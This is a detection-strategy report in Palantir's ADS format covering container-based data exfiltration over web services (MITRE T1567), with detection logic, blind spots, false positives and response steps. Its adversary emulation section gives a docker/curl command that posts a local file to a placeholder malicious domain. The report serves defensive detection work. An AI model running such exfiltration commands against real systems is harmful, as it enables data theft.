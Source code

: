 # Palantir's Alerting & Detection Strategy (ADS) Framework Report

## Goal
This technique aims to detect adversarial attempts to bypass security monitoring by using containers as a method of exfiltrating data via web services.

## Categorization
- **MITRE ATT&CK Mapping:** T1567 - Exfiltration Over Web Service
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1567)

## Strategy Abstract
The detection strategy involves monitoring network traffic and container activity for patterns indicative of data exfiltration via web services. Key data sources include network logs, firewall logs, container orchestration platforms (like Kubernetes), and endpoint security tools. Patterns analyzed will focus on unusual outbound traffic volumes, non-standard ports, or communication with known malicious domains. The strategy also involves correlating these findings across multiple data points to reduce false positives.

## Technical Context
Adversaries might exploit containers to perform exfiltration over web services by embedding sensitive data within web requests that mimic legitimate traffic. This technique is effective because it can blend into normal network activity, thus bypassing conventional security monitoring tools which may not inspect containerized traffic in detail.

### Adversary Emulation Details:
- **Commands:**
  - `docker run --rm -it <image> curl -X POST http://<malicious_domain>/upload -d @/path/to/data`
  - For Kubernetes environments, using a malicious pod to communicate with an external service.
  
- **Test Scenario:** 
  1. Set up a container orchestration platform like Docker or Kubernetes.
  2. Deploy a container running a script that periodically sends data to a controlled web server mimicking exfiltration.

## Blind Spots and Assumptions
- **Blind Spots:**
  - Encrypted traffic might obscure inspection unless decrypted, requiring additional security controls.
  - Dynamic and ephemeral nature of containers can complicate tracking long-term malicious activity.

- **Assumptions:**
  - Assumes baseline normalcy in network traffic patterns which may not account for atypical but legitimate business needs.
  - Relies on timely updates to threat intelligence feeds to identify emerging threats.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate applications using web services for cloud backups or data synchronization.
- High-volume data transfers during routine maintenance or software updates.
- Use of standard web service ports (e.g., HTTP/HTTPS) for legitimate business operations.

## Priority
**Severity:** High  
The ability to exfiltrate sensitive data undetected poses a significant risk to organizational security. The technique's potential to bypass traditional monitoring and its adaptability across multiple platforms make it a critical threat vector that warrants high priority in detection efforts.

## Response
When an alert fires:
1. **Investigate Traffic:** Identify the source of suspicious outbound traffic, examining both the volume and destination.
2. **Examine Containers:** Review running containers for unauthorized or unexpected activity, including recent changes to configurations or images used.
3. **Correlate Logs:** Cross-reference network logs with container orchestration logs to determine if the alert correlates with legitimate business operations.
4. **Containment:** Temporarily isolate affected systems and revoke any suspicious credentials or permissions identified during analysis.
5. **Notification:** Inform relevant stakeholders, including IT security teams and management, about the potential breach.

## Additional Resources
Currently, no additional references are available for this specific technique. Analysts should remain updated with latest threat intelligence reports and community-driven resources focused on containerized environments and web service exfiltration tactics.